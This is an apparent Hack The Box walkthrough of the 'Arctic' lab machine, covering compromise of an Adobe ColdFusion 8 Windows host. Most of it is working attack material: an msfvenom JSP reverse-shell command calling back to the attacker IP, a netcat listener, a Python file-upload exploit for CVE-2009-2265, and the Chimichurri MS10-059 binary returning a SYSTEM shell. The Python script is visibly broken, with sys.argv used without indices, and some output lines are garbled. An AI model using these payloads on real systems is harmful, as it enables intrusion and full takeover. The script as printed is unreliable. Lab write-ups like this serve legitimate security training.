


# Hack The Box - Arctic



Cracking the Arctic box was a great Windows challenge. The machine exposed Adobe ColdFusion 8 on a web-facing service, and from there I used a file upload flaw to gain a shell. For privilege escalation, I relied on MS10-059 to obtain a SYSTEM shell and read the final flag.

## Enumeration

I began with a port scan to identify exposed services on the target.

```bash
nmap -Pn -sCV -p135,8500,49154 10.10.10.11
```

The scan returned three open ports:

```text
PORT      STATE SERVICE VERSION
135/tcp   open  msrpc   Microsoft Windows RPC
8500/tcp   open  fmtp?
49154/tcp open  msrpc   Microsoft Windows RPC
Service Info: OS: Windows; CPE: cpe:/o:microsoft:windows
```

A quick follow-up scan confirmed the same surface:

```text
PORT      STATE SERVICE
135/tcp   open  msrpc
8500/tcp   open  fmtp
49154/tcp open  unknown
```

Port 8500 was the most interesting discovery. It turned out to be Adobe ColdFusion 8, which was a product I had not worked with before. After checking for known issues, I found a useful file upload vulnerability**CVE-2009-2265** that could place a JSP file into the `/userfiles/file/` directory POC: https://forum.hackthebox.com/t/python-coldfusion-8-0-1-arbitrary-file-upload/108.



## Initial Shell

To get a foothold, I generated a JSP reverse shell.

```bash
msfvenom -p java/jsp_shell_reverse_tcp LHOST=10.10.14.15 LPORT=443 -f raw > jspshell.jsp
```

Then I started a listener:

```bash
sudo nc -nvlp 443
```

After uploading the JSP payload and triggering it, I received a shell:

```text
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.11] 49181
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\runtime\bin>
```

From there, I enumerated users and found `tolis` on the system.

```text
C:\Users>dir
Directory of C:\Users

22/03/2017  09:00 ��    <DIR>          Administrator
14/07/2009  06:57 ��    <DIR>          Public
22/03/2017  09:00 ��    <DIR>          tolis
```

The user flag was located in `C:\Users\tolis\Desktop\user.txt`.

## Privilege Escalation

Since `tolis` was not an administrator, I gathered system details to look for a local privilege escalation path.

```bash
systeminfo
```

The host was running:

```text
OS Name:                   Microsoft Windows Server 2008 R2 Standard
OS Version:                6.1.7600 N/A Build 7600
```

I ran `windows-exploit-suggester` against the `systeminfo` output and found several possible vulnerabilities, including MS10-059.

```text
[E] MS10-059: Vulnerabilities in the Tracing Feature for Services Could Allow Elevation of Privilege (982799) - Important
```

This turned out to be the working privesc route. The exploit I initially tried did not work, but a compiled binary from egre55 did.

## File Upload Abuse

The key idea was to reuse the ColdFusion upload flaw, but this time for a binary instead of a JSP file. I changed the MIME type to `application/octet-stream` so the target would accept the executable payload.

Updated upload script:

```python
import requests, sys

try:
    ip = sys.argv[1]
    port = sys.argv
    if len(sys.argv) == 5:
        path = sys.argv
        with open(sys.argv, 'r') as payload:
            body = payload.read()
    else:
        path = ""
        with open(sys.argv, 'r') as payload:
            body = payload.read()
except IndexError:
    print 'Usage: ./exploit.py <target ip/hostname> <target port> [/path/to/coldfusion] </path/to/payload.exe>'
    print 'Example: ./exploit.py example.com 8500 /home/arrexel/shell.exe'
    sys.exit(-1)

basepath = "http://" + ip + ":" + port + path

print 'Sending payload...'

try:
    req = requests.post(
        basepath + "/CFIDE/scripts/ajax/FCKeditor/editor/filemanager/connectors/cfm/upload.cfm?Command=FileUpload&Type=File&CurrentFolder=/exploits.exe%00",
        files={'newfile': ('exploit.txt', body, 'application/octet-stream')},
        timeout=30
    )
    if req.status_code == 200:
        print 'Successfully uploaded payload!\nFind it at ' + basepath + '/userfiles/file/exploits.exe'
    else:
        print 'Failed to upload payload... ' + str(req.status_code) + ' ' + req.reason
except requests.Timeout:
    print 'Failed to upload payload... Request timed out'
```

I used it to upload the compiled Chimichurri exploit:

```bash
python FileUpload.py 10.10.10.11 8500 Chimichurri.exe
```

The file was successfully placed in:

```text
C:\ColdFusion8\wwwroot\userfiles\file\exploits.exe
```

## SYSTEM Shell

I executed the uploaded binary with my attacker IP and a listener port:

```bash
exploits.exe 10.10.14.15 53
```

That immediately returned a SYSTEM shell:

```text
/Chimichurri/-->This exploit gives you a Local System shell
/Chimichurri/-->Changing registry values...
/Chimichurri/-->Got SYSTEM token...
/Chimichurri/-->Running reverse shell...
/Chimichurri/-->Restoring default registry values...
```

On my listener:

```text
connect to [10.10.14.15] from (UNKNOWN) [10.10.10.11] 49201
Microsoft Windows [Version 6.1.7600]
Copyright (c) 2009 Microsoft Corporation.  All rights reserved.

C:\ColdFusion8\wwwroot\userfiles\file>whoami
nt authority\system
```

With full privileges, I navigated to the Administrator desktop and read `root.txt`.

## Attack Path

- Scan the host and identify ColdFusion on port 8500.
- Exploit the file upload vulnerability to place a JSP shell.
- Gain an initial shell as `tolis`.
- Run system enumeration and identify MS10-059.
- Reuse the upload flaw to place a Windows executable.
- Execute Chimichurri to get a SYSTEM shell.
- Read `root.txt` from the Administrator desktop.
